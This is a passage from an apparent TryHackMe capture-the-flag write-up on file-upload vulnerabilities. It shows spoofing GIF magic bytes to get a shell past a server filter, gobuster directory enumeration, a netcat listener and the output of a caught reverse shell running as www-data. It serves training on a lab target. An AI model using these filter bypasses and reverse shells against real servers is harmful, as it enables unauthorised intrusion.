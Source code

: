 Now if we save and exit the file (Ctrl + x), we can use file once again, and see that we have successfully spoofed the filetype of our shell:

![](https://i.imgur.com/ldyt88v.png)

Perfect. Now let's try uploading the modified shell and see if it bypasses the filter!

![](https://i.imgur.com/Coat5LI.png)

There we have it -- we bypassed the server-side magic number filter and received a reverse shell.

Head to `magic.uploadvulns.thm` -- it's time for the last mini-challenge.

This will be the final example website you have to hack before the challenge in task eleven; as such, we are once again stepping up the level of basic security. The website in the last task implemented an altered naming scheme, prepending the date and time of upload to the file name. This task will not do so to keep it relatively easy; however, directory indexing has been turned off, so you will not be able to navigate to the directory containing the uploads. Instead you will need to access the shell directly using its URI.

Bypass the magic number filter to upload a shell. Find the location of the uploaded shell and activate it. Your flag is in `/var/www/`.

`GIFs only please!`

`47 49 46 38 37 61`

`GIF89a`

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ gobuster dir -u http://magic.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://magic.uploadvulns.thm/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/16 21:23:40 Starting gobuster
===============================================================
/graphics (Status: 301)
/assets (Status: 301)
Progress: 838 / 220561 (0.38%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/16 21:23:43 Finished
===============================================================
```

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.251.9 46972
Linux 94d79a333b8d 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:48:52 up  1:36,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /var/www
$ ls -la
total 28
drwxr-xr-x 1 root     root     4096 Jun 11 15:07 .
```
